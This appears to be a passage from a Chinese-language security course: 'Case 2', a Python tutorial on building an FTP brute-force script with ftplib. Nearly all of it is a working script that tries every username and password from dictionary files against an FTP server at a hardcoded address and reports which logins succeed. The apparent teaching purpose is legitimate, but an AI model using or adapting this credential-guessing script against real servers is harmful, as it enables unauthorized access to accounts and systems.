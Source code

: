 

### Python 开发-利用 FTP 模块实现协议爆破脚本

#### **案例 2-Python 开发-利用 FTP 模块实现协议爆破脚本**

- 1.ftplib 模块使用

- 2.遍历用户及密码字典
- 3.尝试连接执行命令判断

~~~python


```python
import ftplib
from ftplib import FTP

ftp=FTP()
for username in open('user.txt'):
    for password in open('password.txt'):
        username = username.replace('\n', '')
        password = password.replace('\n', '')
        try:
            ftp.connect('10.13.1.81', 21)
            ftp.login(username, password)
            ftp.retrlines('list')
            print(username + '|' + password + '--------'+'Logged in')
            ftp.close()

        except ftplib.all_errors as e:
            ftp.close()
            print(username + '|' + password +'--------'+ 'failed')
            continue
```


~~~
